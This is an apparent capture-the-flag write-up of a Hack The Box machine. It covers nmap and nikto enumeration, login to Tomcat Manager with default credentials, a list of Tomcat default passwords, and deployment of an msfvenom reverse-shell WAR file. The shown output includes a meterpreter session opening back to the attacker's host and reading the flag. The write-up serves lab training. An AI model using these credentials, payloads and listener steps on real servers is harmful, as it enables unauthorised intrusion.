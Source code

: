 ```yaml
---
published: true
---
```

Hackthebox.eu virtual machine; Simple box, tomcat running as system with default credentials uploads malicious WAR file.

----------

Legal Usage:
*The information provided by execute@will is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risks/responsibilities.*

----------
# 1. Enumeration

Nmap

    # nmap -sC -sV -oA htb 10.10.10.95
    
    Starting Nmap 7.70 ( https://nmap.org ) at 2018-10-17 07:13 EDT
    Nmap scan report for 10.10.10.95
    Host is up (0.19s latency).
    Not shown: 999 filtered ports
    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
    |_http-favicon: Apache Tomcat
    |_http-server-header: Apache-Coyote/1.1
    |_http-title: Apache Tomcat/7.0.88
- Discovered Apache Tomcat/7.0.88 on port 8080

Nikto

    # nikto -h 10.10.10.95:8080
    
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          10.10.10.95
    + Target Hostname:    10.10.10.95
    + Target Port:        8080
    ---------------------------------------------------------------------------
    + Server: Apache-Coyote/1.1
    + The anti-clickjacking X-Frame-Options header is not present.
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Server leaks inodes via ETags, header found with file /favicon.ico, fields: 0xW/21630 0x1525691762000
    + OSVDB-39272: favicon.ico file identifies this server as: Apache Tomcat
    + Allowed HTTP Methods: GET, HEAD, POST, PUT, DELETE, OPTIONS
    + OSVDB-397: HTTP method ('Allow' Header): 'PUT' method could allow clients to save files on the web server.
    + OSVDB-5646: HTTP method ('Allow' Header): 'DELETE' may allow clients to remove files on the web server.
    + Web Server returns a valid response with junk HTTP methods, this may cause false positives.
    + /examples/servlets/index.html: Apache Tomcat default JSP pages present.
    + OSVDB-3720: /examples/jsp/snp/snoop.jsp: Displays information about page retrievals, including other users.
- Discovered Apache Tomcat and JSP vulnerability
# 2. Navigate to 10.10.10.95:8080
![8080.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/8080.jpg?raw=true)


“access: http://10.10.10.95:8080/manager/html "Manager App"
Username: tomcat
Password: s3cret

    list of Apache Default Credentials 
    Username Password
    admin     password
    admin     
    admin     Password1
    admin     password1
    admin     admin
    admin     tomcat
    both     tomcat
    manager manager
    role1     role1
    role1     tomcat
    role     changethis
    root     Password1
    root     changethis
    root     password
    root     password1
    root     r00t
    root     root
    root     toor
    tomcat     tomcat
    tomcat     s3cret
    tomcat     password1
    tomcat     password
    tomcat     
    tomcat     admin
    tomcat     changethis

source: https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

# 3. Attack Vector

utilizing a specialied WAR file we can upload to the server and access a .jsp that will allow access to the system

![war.jpg](https://github.com/executeatwill/ctf/blob/gh-pages/_posts/war.jpg?raw=true)


Crafting WAR file:
tools: msfvenom

    msfvenom -p payload/windows/shell/reverse_tcp  LHOST=10.10.13.75 LPORT=9000 -f war -o war.war
    No encoder or badchars specified, outputting raw payload
    Payload size: 341 bytes
    Final size of war file: 52304 bytes
    Saved as: war.war

extract file:

    jar -xvf war.war 
    created: META-INF/
    inflated: META-INF/MANIFEST.MF
    created: WEB-INF/
    inflated: WEB-INF/web.xml
    inflated: yewdmyrhyi.jsp
- Extracted .jsp will be coded by msfvenom and will change. The war.war will be uploaded via the deployment section. Before accessing .jsp creation of listener is required.
# 4. Setup Listener

tool: msf

    msfdb run
- quick way to start postgres and metasploit framework

after initilzation:

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST LOCALIP
    set LPORT 9000
    exploit

Access: http://10.10.10.95/war/yewdmyrhyi.jsp

`- wait for reverse tcp connection
    [*] Started reverse TCP handler on 10.10.13.75:9002
    [*] Sending stage (179779 bytes) to 10.10.10.95
    [*] Meterpreter session 1 opened (10.10.13.75:9002 -> 10.10.10.95:49200) at 2018-10-17 06:52:41 -0400
    msf exploit(multi/handler) > sessions -i 1
    [*] Starting interaction with 1...
    
    meterpreter > dir
    
   Listing: C:\apache-tomcat-7.0.88
    ================================
    
    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    100666/rw-rw-rw-  57896  fil   2018-05-07 07:16:00 -0400  LICENSE
    100666/rw-rw-rw-  1275   fil   2018-05-07 07:16:00 -0400  NOTICE
    100666/rw-rw-rw-  9600   fil   2018-05-07 07:16:00 -0400  RELEASE-NOTES
    100666/rw-rw-rw-  17454  fil   2018-05-07 07:16:00 -0400  RUNNING.txt
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  bin
    100666/rw-rw-rw-  0      fil   2018-10-17 13:38:59 -0400  cd
    40777/rwxrwxrwx   4096   dir   2018-06-18 23:47:35 -0400  conf
    40777/rwxrwxrwx   8192   dir   2018-06-18 21:06:55 -0400  lib
    40777/rwxrwxrwx   8192   dir   2018-10-17 13:29:45 -0400  logs
    100666/rw-rw-rw-  113    fil   2018-10-17 13:38:58 -0400  shell
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:19 -0400  temp
    40777/rwxrwxrwx   4096   dir   2018-10-17 13:55:15 -0400  webapps
    40777/rwxrwxrwx   0      dir   2018-06-18 21:34:12 -0400  work

Navigate to flag: C:\Users\Administrator\Desktop\flags
read file with meterpreter > cat "2 for the price of 1.txt"`

# 5. Final Thoughts

As a beginner level box there is a wide assortment of things that can be learned. From discovering/exploiting the PUT .jsp within Apatche Tomcat, along with the complexity of standard CVE scripts could not be used due to the nature of how the server was set up. All these tasks could have been streamlined within the Metasploit Framework but it's best practice to use msfvenom and craft payloads while understanding how exactly they will function.
-exec@will

# 6. Further Learning/Sources:
- [http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html)
- [https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/](https://pentestlab.blog/2012/08/26/using-metasploit-to-create-a-war-backdoor/)
- [https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- [https://www.windows-commandline.com/read-file-from-command-line/](https://www.windows-commandline.com/read-file-from-command-line/)
